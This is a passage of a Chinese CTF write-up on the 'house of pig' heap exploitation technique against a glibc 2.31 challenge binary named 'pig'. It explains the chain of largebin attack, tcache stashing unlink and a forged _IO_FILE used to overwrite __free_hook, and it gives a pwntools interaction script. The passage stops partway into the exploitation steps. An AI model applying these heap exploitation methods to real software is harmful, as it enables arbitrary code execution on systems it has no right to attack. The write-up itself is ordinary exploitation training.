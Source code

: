 > 该攻击方式适用于 libc 2.31及以后的新版本 libc，本质上是通过 libc2.31 下的 largebin attack以及 FILE 结构利用，来配合 libc2.31 下的 tcache stashing unlink attack 进行组合利用的方法。主要适用于程序中仅有 calloc 函数来申请 chunk，而没有调用 malloc 函数的情况。

本题中，我们可以申请到在tcache保存大小范围的chunk，也可以申请到大于tcache大小的chunk，因此就完美符合这个条件。

house of pig在本题（libc 2.31版本）利用方式的本质是：想办法将``__free_hook``保存到tcache中，然后使用一个伪造的``_IO_FILE``结构体，并想办法将该假结构体链到``_IO_list_all``（最简单的方法是直接修改``_IO_list_all``的值到这里），并在glibc检测到内存分配出错时能够转到该``_IO_FILE``结构体执行``_IO_str_overflow``，在``_IO_str_overflow``中连续进行``malloc``、``memcpy``、``free``三个操作，通过``memcpy``将``system``函数地址写到``__free_hook``，通过后面紧跟着的``free``来getshell。

下面，我们就开始进行本题的漏洞利用。

# 3. 漏洞利用
首先写一下交互函数：

```python
from pwn import *
context.log_level = 'debug'

io = process(['./pig'])
elf = ELF('./pig')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
password = [b'AY7Hr0', b'BRgTa2', b'CnY841']

def add(content_length, content):
    io.sendlineafter(b'Choice: ', b'1')
    io.sendlineafter(b'message size: ', str(content_length).encode())
    io.sendafter(b'message: ', content)

def view(index):
    io.sendlineafter(b'Choice: ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def edit(index, content):
    io.sendlineafter(b'Choice: ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendafter(b'message: ', content)

def delete(index):
    io.sendlineafter(b'Choice: ', b'4')
    io.sendlineafter(b'index: ', str(index).encode())

def change_role(role):
    io.sendlineafter(b'Choice: ', b'5')
    io.sendlineafter(b'user:\n', password[role])
```

## A. 准备tcache stashing unlink attack的堆环境
注意tcache stashing unlink attack需要有两个chunk进入small bins，如果首先进行large bin attack，将会产生一些large bin chunk和unsorted bin chunk，此时如果分配较小的chunk，这两个bins中的chunk都有可能会进行拆分，进而扰乱small bins结构，因此最好能够在一切开始之前首先准备好small bins环境，毕竟small bins中的chunk相对而言是比较稳定的，不会被拆分，只有需要分配对应大小的chunk时才可能发生变化。这种对于不同操作顺序的考虑应该是在进行多次尝试后才能最终确定的，考虑到本题中严格的限制条件，选手很有可能会因为没有使用正确的操作顺序而迟迟无法获得推进。这也提醒我们在遇到困难时可以尝试修改相对独立的操作之间的顺序，以寻找突破口。
